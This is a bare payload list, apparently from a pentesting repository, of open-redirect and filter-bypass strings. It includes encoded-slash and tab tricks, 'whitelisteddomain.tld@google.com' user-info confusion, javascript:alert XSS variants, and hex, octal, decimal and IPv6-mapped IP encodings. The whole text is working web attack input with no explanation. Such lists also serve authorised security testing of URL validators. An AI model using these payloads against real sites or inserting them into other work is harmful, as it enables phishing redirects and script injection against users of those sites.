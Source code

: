 ```html
https://%09/www.whitelisteddomain.tld@google.com
/%5cgoogle.com
/%5cwww.whitelisteddomain.tld@google.com
//%5cgoogle.com
//%5cwww.whitelisteddomain.tld@google.com
///%5cgoogle.com
///%5cwww.whitelisteddomain.tld@google.com
////%5cgoogle.com
////%5cwww.whitelisteddomain.tld@google.com
https://%5cgoogle.com
https://%5cwww.whitelisteddomain.tld@google.com
/https://%5cgoogle.com
/https://%5cwww.whitelisteddomain.tld@google.com
https://google.com
https://www.whitelisteddomain.tld@google.com
javascript:alert(1);
javascript:alert(1)
//javascript:alert(1);
/javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
//google.com
https:google.com
//google%E3%80%82com
\/\/google.com/
/\/google.com/
//google%00.com
https://www.whitelisteddomain.tld/https://www.google.com/
";alert(0);//
javascript://www.whitelisteddomain.tld?%a0alert%281%29
http://0xd8.0x3a.0xd6.0xce
http://www.whitelisteddomain.tld@0xd8.0x3a.0xd6.0xce
http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce
http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce
http://0xd83ad6ce
http://www.whitelisteddomain.tld@0xd83ad6ce
http://3H6k7lIAiqjfNeN@0xd83ad6ce
http://XY>.7d8T\205pZM@0xd83ad6ce
http://3627734734
http://www.whitelisteddomain.tld@3627734734
http://3H6k7lIAiqjfNeN@3627734734
http://XY>.7d8T\205pZM@3627734734
http://472.314.470.462
http://www.whitelisteddomain.tld@472.314.470.462
http://3H6k7lIAiqjfNeN@472.314.470.462
http://XY>.7d8T\205pZM@472.314.470.462
http://0330.072.0326.0316
http://www.whitelisteddomain.tld@0330.072.0326.0316
http://3H6k7lIAiqjfNeN@0330.072.0326.0316
http://XY>.7d8T\205pZM@0330.072.0326.0316
http://00330.00072.0000326.00000316
http://www.whitelisteddomain.tld@00330.00072.0000326.00000316
http://3H6k7lIAiqjfNeN@00330.00072.0000326.00000316
http://XY>.7d8T\205pZM@00330.00072.0000326.00000316
http://[::216.58.214.206]
http://www.whitelisteddomain.tld@[::216.58.214.206]
```